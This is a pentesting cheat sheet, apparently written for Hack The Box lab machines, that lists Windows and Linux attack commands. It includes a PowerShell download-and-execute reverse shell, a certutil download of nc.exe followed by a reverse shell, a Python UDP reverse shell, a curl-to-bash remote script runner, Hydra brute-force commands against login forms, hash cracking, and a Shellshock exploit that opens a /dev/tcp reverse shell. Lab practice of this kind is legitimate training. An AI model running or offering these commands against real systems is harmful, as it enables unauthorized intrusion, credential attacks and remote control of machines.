# Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

## Download nc and reverse shell

```
cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f 'http://10.10.16.65/nc.exe' C:\Users\Public\nc.exe & C:\Users\Public\nc.exe 10.10.16.65 1234 -e powershell.exe
```

# Linux

## Information gather

### check if is the docker 

```
cat /proc/1/cgroup
```

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

## Tools

### snmpwalk

#### information scan

```
snmpwalk -v 2c -c public 10.10.10.65
```

#### enable MIB

* apt install snmp-mibs-downloader
* comment out mibs in `/etc/snmp/snmap.conf`

### Cewl

#### Generate password list

```
cewl -w cewl-forum.txt -e -a http://gorum.bart.htb
```

### Hydra

#### Brute force login form http

```
 hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -Vv -f
 ```
 
 #### Brute force login form https
 
 ```
 hydra 10.10.10.43 -l whatever -P /opt/SecLists/Passwords/darkweb2017-top10000.txt https-post-form "/db/:password=^PASS^&remember=yes&login=log+in&proc_login=true:Incorrect password." -Vv -s 443
 ```

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### wfuzz

#### brute force subdomains

```
 wfuzz -w /opt/SecLists/Discovery/DNS/subdomains-top1mil-110000.txt -u http://10.10.10.120/ -H 'Host: FUZZ.chaos.htb' --hh 73 --hc 400
 ```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`

## Exploits

### Shellshock

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.15.98/7777 0>&1 " http://10.10.10.56:80/cgi-bin/user.sh
```
